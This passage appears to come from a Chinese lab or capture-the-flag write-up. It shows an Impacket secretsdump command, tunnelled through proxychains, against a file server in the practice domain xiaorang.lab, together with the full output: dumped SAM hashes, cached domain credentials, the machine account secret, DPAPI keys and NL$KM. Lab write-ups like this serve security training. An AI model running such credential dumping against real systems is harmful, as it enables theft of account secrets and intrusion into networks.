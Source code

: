 [![](assets/1706846898-037ec6dd89f123e1e36512380124027b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131214302-a797784a-c03e-1.png)

具体如下

```plain
proxychains secretsdump.py -k -no-pass FILESERVER.xiaorang.lab -dc-ip 172.22.60.8
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Impacket for Exegol - v0.10.1.dev1 - Copyright 2022 Fortra - forked by ThePorgs

[proxychains] Strict chain  ...  119.3.215.198:7001  ...  172.22.60.42:445  ...  OK
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xef418f88c0327e5815e32083619efdf5
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bd8e2e150f44ea79fff5034cad4539fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:b40dda6fd91a2212d118d83e94b61b11:::
[*] Dumping cached domain logon information (domain/username:hash)
XIAORANG.LAB/Administrator:$DCC2$10240#Administrator#f9224930044d24598d509aeb1a015766: (2023-08-02 07:52:21)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
XIAORANG\Fileserver$:plain_password_hex:3000310078005b003b0049004e003500450067003e00300039003f0074006c00630024003500450023002800220076003c004b0057005e0063006b005100580024007300620053002e0038002c0060003e00420021007200230030003700470051007200640054004e0078006000510070003300310074006d006b004c002e002f0059003b003f0059002a005d002900640040005b0071007a0070005d004000730066006f003b0042002300210022007400670045006d0023002a002800330073002c00320063004400720032002f003d0078006a002700550066006e002f003a002a0077006f0078002e0066003300
XIAORANG\Fileserver$:aad3b435b51404eeaad3b435b51404ee:951d8a9265dfb652f42e5c8c497d70dc:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x15367c548c55ac098c599b20b71d1c86a2c1f610
dpapi_userkey:0x28a7796c724094930fc4a3c5a099d0b89dccd6d1
[*] NL$KM 
 0000   8B 14 51 59 D7 67 45 80  9F 4A 54 4C 0D E1 D3 29   ..QY.gE..JTL...)
 0010   3E B6 CC 22 FF B7 C5 74  7F E4 B0 AD E7 FA 90 0D   >.."...t........
 0020   1B 77 20 D5 A6 67 31 E9  9E 38 DD 95 B0 60 32 C4   .w ..g1..8...`2.
 0030   BE 8E 72 4D 0D 90 01 7F  01 30 AC D7 F8 4C 2B 4A   ..rM.....0...L+J
NL$KM:8b145159d76745809f4a544c0de1d3293eb6cc22ffb7c5747fe4b0ade7fa900d1b7720d5a66731e99e38dd95b06032c4be8e724d0d90017f0130acd7f84c2b4a
[*] Cleaning up... 
```